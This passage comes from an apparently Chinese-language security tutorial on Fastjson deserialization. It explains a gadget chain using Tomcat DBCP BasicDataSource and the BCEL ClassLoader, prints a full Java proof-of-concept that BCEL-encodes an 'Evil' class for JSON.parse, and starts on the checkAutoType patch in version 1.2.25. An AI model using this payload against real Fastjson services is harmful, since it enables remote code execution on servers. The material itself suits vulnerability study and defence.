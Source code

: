 这里需要注意的是，driverClassLoader的值我们传入的是一个对象,我猜测这里传入{\"@type\":\"com.sun.org.apache.bcel.internal.util.ClassLoader\"}时会自动进行parse去得到一个ClassLoader，也就是有循环调用的逻辑在里面，不过这里就不去分析源码了，有兴趣的师傅可以去跟跟看。

但是目前的POC存在一个问题，就是getConnection方法是一个setter方法（而且显然不属于满足严苛条件的那种），因此假如要是单纯调用parse方法而不是parseObject方法是不会被调用的，假如要在parse方法中也被调用的话，我们需要将目前的字符串置于一个key中，这样parse方法就会调用每个getter方法（类似于toJSON中的操作）,具体原理大概为：

> 当JSONObject作为json字符串的key时，parse时会执行key的toString方法，执行JSONObject的toString方法时会调用对象的每个getter方法

具体的逻辑我就不跟了，有兴趣的师傅可以参考这篇[文章](https://blog.csdn.net/GX233/article/details/124655533)进行调试

有最终POC为：

```java
import com.alibaba.fastjson.JSON;
import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import java.io.IOException;


public class Main {
    public static void main(String[] args) throws IOException {
        String s = "{{\"x\":{\"@type\":\"org.apache.tomcat.dbcp.dbcp2.BasicDataSource\",\"driverClassName\":\"%s\",\"driverClassLoader\":{\"@type\":\"com.sun.org.apache.bcel.internal.util.ClassLoader\"}}}:\"x\"}";
        Object obj = JSON.parse(String.format(s,encode()));
    }
    public static String encode() throws IOException {
        JavaClass cls = Repository.lookupClass(Evil.class);
        return "$$BCEL$$"+ Utility.encode(cls.getBytes(), true);
    }
}
```

不过这里值得注意的是和之前提到的一样，BCEL包在Java 8u251以后被移除了，因此需要注意利用条件。

# 1.2.25-1.2.41利用

我们先来看下1.2.25版本中是如何修复漏洞的，改动其实就是：

```java
Class<?> clazz = TypeUtils.loadClass(typeName, config.getDefaultClassLoader());
改成了：
Class<?> clazz = config.checkAutoType(typeName, null);
```

也就是现在不会直接加载@type中指定的类而是会经过checkAutoType进行检查，但是如下图所示checkAutoType的机制其实相当复杂和漫长
